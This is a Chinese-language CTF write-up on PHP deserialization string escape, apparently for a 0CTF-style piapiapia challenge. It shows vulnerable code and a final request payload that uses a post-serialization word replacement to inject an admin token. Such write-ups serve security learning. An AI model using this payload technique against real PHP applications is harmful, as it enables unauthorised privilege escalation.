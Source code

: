 # 知识点
[[0CTF 2016]piapiapia(反序列化逃逸)_yu22x的博客-CSDN博客_0ctf piapiapia](https://blog.csdn.net/miuzzx/article/details/104598338)
# 思路
注释里告诉我们message.php,要求我们的token为admin
```plsql
<?php
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```
该题运用反序列化字符串逃逸，运用的思想跟sql注入的闭合相似<br />我们这里有一个序列化字符串，我们要改变token属性，但我们无法直接控制它的值。<br />我们只能给from，msg，to传递值，即这三个属性是可控的
```plsql
O:7:"message":4:{s:4:"from";s:1:"1";s:3:"msg";s:1:"2";s:2:"to";s:1:"3";s:5:"token";s:4:"user";}
```
假如我们向to属性传递  t=3";s:5:"token";s:5:"admin";} 字符串就变为了下面这样
```plsql
O:7:"message":4:{s:4:"from";s:1:"1";s:3:"msg";s:1:"2";s:2:"to";s:27:"3";s:5:"token";s:4:"user";}";s:5:"token";s:5:"admin";}
```
我们对字符串进来了闭合，这样我们就可以控制token属性的值了，但我们也会发现一点，to属性值的长度变为了27。反序列化时，如果为27则会匹配后面27个字符，这样闭合就没有效果。<br />这时候题目中的替换字符函数可以帮助到我们
```plsql
$umsg = str_replace('fuck', 'loveU', serialize($msg));
```
str_replace会将fuck替换为loveU，且替换是在序列化之后进行的，也就是说，实际字符串长度增加了1，但标明的字符串长度任然为原值
```plsql
// 替换前
s:2:"to";s:4:"fuck";
// 替换后
s:2:"to";s:4:"loveU";
```
通过这种方法，我们就可以凭空增加字符，来成功进行闭合
```plsql
// t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
// 后面多出27个字符，所以我们写27个fuck，替换为loveU后，增加了27个字符，来达到字符串逃逸
```
最终我们的payload为
```plsql
f=1&m=2&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
```
